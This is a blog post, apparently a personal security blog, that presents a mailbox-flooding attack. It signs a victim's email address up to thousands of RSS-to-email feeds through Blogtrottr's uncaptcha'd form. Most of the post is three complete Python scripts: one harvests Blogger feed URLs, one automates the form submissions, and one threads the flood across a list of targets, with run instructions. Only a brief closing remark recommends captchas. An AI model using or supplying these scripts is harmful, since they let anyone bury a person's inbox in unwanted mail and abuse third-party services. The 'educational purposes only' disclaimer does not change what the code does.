






Aloha! Today I’m gonna show you a simple yet powerful way to flood any mail box from ANY Email Service Provider (ex.: Google, Yahoo, Live.com [aka Hotmail], etc.). This method uses the “flaws” in subscribe feature on many websites.

**NOTE: All information and scripts presented in this article are for research/educational purpose ONLY.**

## Concept. Attack vector.

First of all, let’s look at how somebody gets subscribed to an RSS Feed nowadays (Check image below).

[ {:.post_image} ](../img/subscribe.png)

As you probably mentioned, we can use “Send confirmation email” step to flood a mail box. BUT there is a bottleneck… We need a HUGE list of websites, which allow their users to subscribe for news and updates.
The attack vector looks like this:

[ {:.post_image} ](../img/attack_vector.png)

Let’s use mailing lists and RSS to email services, like blogtrottr.com, to avoid the necessity of crawling the Web for websites with newsletter subscriptions and add a layer of anonymity.
Below you can see typical web forms for GNU Mailman and Blogtrotr aggregator:

[ {:.post_image} ](../img/redhat_mailing_list.png)

[ {:.post_image} ](../img/blogtrotr.png)

Because these services usually are not secured by any Captcha Code, it is possible to automate the whole flood process.

## Flood. Proof of Concept using a Gmail account.

In the following PoC I used Blogtrotr Service only. For this scenario we need:

1. List of URL to RSS Feeds (all blogs on Blogger have their Atom RSS feed);
2. Python scripts for flood automation (Warning: FAST WRITTEN. NO CLEAN CODE =) );
3. A Gmail account (I used my personal one);

Using **blogger.py** script, listed below, I was able to collect around 50000 unique Blogger RSS Feeds (which is more than enough).

```python
#!/usr/bin/python
 
def writeToFile(url):
    f = open("/home/num1r0/Desktop/blogs", "a+")
    f.write(url)
    f.write("\n")
    f.close()
 
def nextBlog(blogID):
    import urllib2
    import re
    try:
        response = urllib2.urlopen('https://www.blogger.com/next-blog?navBar=true&amp;amp;blogID=' + str(blogID))
        html_code = response.read()
        match = re.search(r'(https://www.blogger.com/feeds/)(\d+)(/posts/default)', html_code)
        url  = match.group(0)
        code = match.group(2)
        return (url, code)
    except:
        print "URLOPEN Error"
        return nextBlog("7485359467295721807")
 
def main():
    from random import randint
 
    lCodes = []
    lCodes.append("7485359467295721807")
    url, code = nextBlog("7485359467295721807")
    while True:
        if code in lCodes:
            print "Existing ID"
            url, code = nextBlog(lCodes[randint(0, len(lCodes) - 1)])
            continue
        else:
            print "New blog: %s" % (url, )
            lCodes.append(code)
            writeToFile(url)
            url, code = nextBlog(code)
 
if __name__ == '__main__':
    main()
```

Now, it’s time for the **core.py** script which submits Blogtrotr form requests (install mechanize as a dependency). Because this is just a Proof of Concept, I’ve hard coded a lot of stuff there, but it still floods OK.

```python
#!/usr/bin/python
 
import sys
 
DEBUG_LEVEL = "INFO"
 
import threading, mechanize
 
class coreThread(threading.Thread):
 
    def __init__(self, target, feedsList):
        threading.Thread.__init__(self)
        self.browser = mechanize.Browser()
        self.target = target
        self.feedsList = feedsList
 
    def run(self):
        self.sendMessages()
 
    def sendMessages(self):
        self.browser = createBrowser([])
        self.browser, htmlCode = browseWebsite(self.browser, "https://blogtrottr.com/")
        formIdentifier = ("id", "subscribe-form")
        for feed in self.feedsList:
            inputData = [("btr_url", str(feed.split("\n")[0])), ("btr_email", str(self.target))]
            submitForm(self.browser, formIdentifier, inputData)
 
def createBrowser(httpHeaders):
    # httpHeaders - is a list of tuples [(), ()]
    global DEBUG_LEVEL
    # Check if mechanize is installed
    try:
        import mechanize
    except:
        print "You need to install mechanize module for Python"
        #sys.exit()
 
    # Initiate the Browser object
    browser = mechanize.Browser()
    #browser.set_all_readonly(False)
    browser.set_handle_robots(False)
    browser.set_handle_refresh(False)
    if len(httpHeaders) &amp;gt; 0:
        browser.addheaders = httpHeaders
    else:
        if DEBUG_LEVEL == "INFO":
            print "No headers passed"
        else:
            pass
    return browser
 
def setProxy(browser, proxyAddress, proxyPort):
    # Set proxy server, if any
    browser.set_proxies({"http": proxyAddress + ":" + proxyPort})
    return browser
 
def browseWebsite(browser, urlAddress):
    # Browse to specified URL address and get html code of the page
    response = browser.open(urlAddress)
    htmlCode = response.read()
    return (browser, htmlCode)
 
def submitForm(browser, formIdentifier, inputData):
    # formIdentifier - is a tuple (tag, value)
    # inputData - is a list of tuples (value of name tag and value of value attribute)
    formNumber = 0
    # Get the number of form to submit
    for form in browser.forms():
        # Using &amp;lt;id&amp;gt; tag of the form
        try:
            if str(form.attrs[str(formIdentifier[0])]) == str(formIdentifier[1]):
                break
        except:
            pass
        formNumber = formNumber + 1
 
    # Select form with specified order number
    browser.select_form(nr=formNumber)
    # Set all form inputs
    for elem in inputData:
        browser.form[str(elem[0])] = elem[1]
    # Submit form
    browser.submit()
```

And the last piece of the puzzle: **fits.py** script. It is “multi-threaded”, using only two threads **(Remember? Educational purposes only)**

```python
#!/usr/bin/python
 
import core as sender
import thread, threading
import time
import sys
 
def getTargetList(fileName):
    # One target per each line
     
    targetsFile = open(fileName, "r")
    targets = targetsFile.readlines()
    targetsFile.close()
    return targets
 
def getFeedList(fileName):
    # One RSS feed per each line
 
    feedsFile = open(fileName, "r")
    feeds = feedsFile.readlines()
    feedsFile.close()
    return feeds
 
def main():
    # Get parameters (ex. fits.py 1000 /path/to/feeds /path/to/targets)
    numberMessages = sys.argv[1]
    feedsFile = sys.argv[2]
    targetsFile = sys.argv[3]
 
    # Get targets and feeds from specified files
    targets = getTargetList(targetsFile)
    feeds = getFeedList(feedsFile)
 
    feedsListHead = feeds[0:int(int(numberMessages)/2)]
    feedsListTail = feeds[int(int(numberMessages)/2):int(numberMessages)]
 
    for target in targets:
        try:
            thread1 = sender.coreThread(target, feedsListHead)
            thread2 = sender.coreThread(target, feedsListTail)
            thread1.start()
            thread2.start()
 
        except Exception as ex:
            print ex
            continue
 
if __name__ == '__main__':
    main()
```

Execute it like:

```bash
fits.py <number_of_emails_to_send> <path_to_rss_feeds_file> <path_to_recipients_file>
```

## Results.

A picture is worth one thousand words (second picture free of charge =))

[ {:.post_image} ](../img/inbox_before.png)

[ {:.post_image} ](../img/inbox_after.png)

## Conclusions.

As usual, we have to choose between Security and Usability. In my opinion a lot of web resources have their newsletter subscription functionality left unsecured. Of course, adding an optional field, like captcha, will decrease user experience, BUT at least RSS-to-Email Services and Mailing List Managers (like GNU Mailman) could add this extra measure.

Hopefully they will.